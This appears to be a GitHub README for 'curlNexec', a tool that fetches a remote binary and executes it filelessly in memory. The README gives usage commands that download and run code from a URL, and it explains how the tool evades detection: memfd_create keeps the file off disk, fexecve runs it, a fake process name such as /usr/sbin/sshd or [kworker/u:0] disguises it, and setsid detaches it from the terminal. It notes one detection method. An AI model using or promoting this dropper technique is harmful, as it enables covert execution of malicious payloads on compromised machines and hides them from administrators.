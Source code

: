 <h1 align=center> curlNexec </h1>

<div align="center">
<code>👋 Certainly useful , mainly for fun, rougly inspired by 0x00 <a href="https://0x00sec.org/t/super-stealthy-droppers/3715">article</a></code>
</div>

## Short story

`curlNexec` enable us to execute a remote binary on a local machine in one step

 - simple usage `curlNexec <binary_url>`
 - execute binary with specified program name: `curlNexec -n /usr/sbin/sshd <binary_raw_url>`
 - detach program execution from `tty`: ` setsid curlNExec [...]` 

![demo](https://github.com/ariary/curlNexec/blob/main/img/curlNexec.gif)

<details>
  <summary><b>Explanation</b></summary>
We want to execute `writeNsleep` binary locate on a remote machine, locally. 
We first start a python http server on remote
Locally we use `curlNexec` and impersonate the `/usr/sbin/sshd` name for the execution of the binary `writeNsleep`(for stealthiness & fun)

</details>

## Stealthiness story 

### memfd_create
The remote binary file is stored locally using `memfd_create` syscall, which store it within a _memory disk_ which is not mapped into the file system (*ie* you can't find it using `ls`).

### fexecve
Then we execute it using `fexecve` syscall (as it is currently not provided by `syscall` golang library we implem it). 

> With `fexecve` , we could but we reference the program to run using a
> file descriptor, instead of the full path.


### other skill for stealthiness

Although not present on the memory disk, the running program can still be detected using `ps` command for example. 

 1. Cover the tracks with a fake program name
 
`curlNexec --name <fake_name> <binary_raw_url>` by default the name is `[kworker/u:0]` 
 2. Detach from tty to map behaviour of deamon process
 
`setsid curlNexec <binary_raw_url>`. *WIP call `setsid` from code*

### Caveats
You could still be detected with:
```
$ lsof | grep memfd
```
